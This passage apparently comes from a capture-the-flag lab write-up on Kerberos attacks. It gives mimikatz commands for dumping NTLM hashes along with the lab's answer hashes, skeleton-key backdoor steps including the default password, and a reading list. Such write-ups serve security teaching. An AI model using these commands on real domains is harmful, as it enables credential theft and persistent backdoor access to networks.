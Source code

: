 2. Access machine that we want. What we can access depends on the privileges of the user that we took the ticket from. However if we take the krbtgt we have access to the ENTIRE network (golden ticket).

##   Answer the questions below

**What is the SQLService NTLM Hash?**

- ``lsadump::lsa /inject /name:SQLService``
- cd40c9ed96265531b21fc5b1dafcfb0a

**What is the Administrator NTLM Hash?**

- ``lsadump::lsa /inject /name:Administrator``
- 2777b7fec870e04dda00cd7260f7bee6

* * * 

## Task 8 - Kerberos Backdoors w/ mimikatz 

- The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

##  Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

- Run ``mimikatz``
- Install Skeleton key ``misc::skeleton``
- Access the forest with default credentials, example:
- ``net use \\CONTROLLER-1\admin$ /user:Administrator mimikatz``

* * * 

## Task 9 - Conclusion 

Resources 

-    https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
-    https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
-    https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
-    https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/
-    https://www.varonis.com/blog/kerberos-authentication-explained/
-    https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf
-    https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf
-    https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf

* * * 



